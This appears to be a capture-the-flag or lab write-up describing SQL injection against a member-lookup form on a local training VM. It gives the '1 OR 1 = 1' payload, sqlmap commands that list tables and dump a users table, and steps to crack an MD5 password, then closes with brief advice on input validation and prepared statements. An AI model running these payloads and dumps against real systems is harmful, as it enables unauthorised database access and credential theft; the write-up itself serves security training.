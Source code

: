 # SQL Injection Member

The form in the member page has an input value which isn't sanatized when processed by the server.

## Steps
* Go to the  <a href="http://192.168.56.102/?page=member">member page</a>
* In the form input enter
```bash
1 OR 1 = 1
```
* Press the submit button
* Run reconnaissance
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --tables
```
* We want to extract information from the users table
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --dump -T users
```
<img src="https://i.imgur.com/czJyCei.png" />

* <a href="" target="_blank">MD5 Decrypt</a> the password
* To get the key, run
```bash
py sha256encrypt.py fortytwo
```

## Ways to secure
* Always validate and sanatize input from client
* Use prepared statements and stored procedures
